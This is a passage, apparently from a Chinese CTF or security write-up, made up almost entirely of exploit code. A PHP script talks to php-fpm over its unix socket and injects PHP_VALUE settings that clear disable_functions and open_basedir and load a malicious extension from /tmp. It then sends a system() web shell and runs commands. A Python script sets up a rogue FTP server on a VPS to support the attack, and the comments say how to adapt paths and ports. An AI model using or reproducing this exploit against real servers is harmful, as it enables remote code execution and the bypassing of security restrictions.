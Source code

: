 ```
?>
<?php
// real exploit start here
//if (!isset($_REQUEST['cmd'])) {
//    die("Check your input\n");
//}
//if (!isset($_REQUEST['filepath'])) {
//    $filepath = __FILE__;
//}else{
//    $filepath = $_REQUEST['filepath'];
//}

$filepath = "/var/www/html/add_api.php";
$req = '/'.basename($filepath);
$uri = $req .'?'.'command=whoami';
$client = new FCGIClient("unix:///var/run/php-fpm.sock", -1);
$code = "<?php system(\$_REQUEST['command']); phpinfo(); ?>"; 
$php_value = "unserialize_callback_func = system\nextension_dir = /tmp\nextension = 1.so\ndisable_classes = \ndisable_functions = \nallow_url_include = On\nopen_basedir = /\nauto_prepend_file = ";   //注意修改这里的so文件名称和路径
$params = array(
    'GATEWAY_INTERFACE' => 'FastCGI/1.0',
    'REQUEST_METHOD'    => 'POST',
    'SCRIPT_FILENAME'   => $filepath,
    'SCRIPT_NAME'       => $req,
    'QUERY_STRING'      => 'command=whoami',
    'REQUEST_URI'       => $uri,
    'DOCUMENT_URI'      => $req,
#'DOCUMENT_ROOT'     => '/',
    'PHP_VALUE'         => $php_value,
    'SERVER_SOFTWARE'   => '80sec/wofeiwo',
    'REMOTE_ADDR'       => '127.0.0.1',
    'REMOTE_PORT'       => '9001',    // 注意这里的FPM端口
    'SERVER_ADDR'       => '127.0.0.1',
    'SERVER_PORT'       => '80',
    'SERVER_NAME'       => 'localhost',
    'SERVER_PROTOCOL'   => 'HTTP/1.1',
    'CONTENT_LENGTH'    => strlen($code)
);
// print_r($_REQUEST);
// print_r($params);
//echo "Call: $uri\n\n";
echo $client->request($params, $code)."\n";
?>
```

利用如下脚本在vps上搭建一个恶意的ftp服务器

```
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
s.bind(('0.0.0.0', 23))
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 welcome\n')
#Service ready for new user.
#Client send anonymous username
#USER anonymous
conn.send(b'331 Please specify the password.\n')
#User name okay, need password.
#Client send anonymous password.
#PASS anonymous
conn.send(b'230 Login successful.\n')
#User logged in, proceed. Logged out if appropriate.
```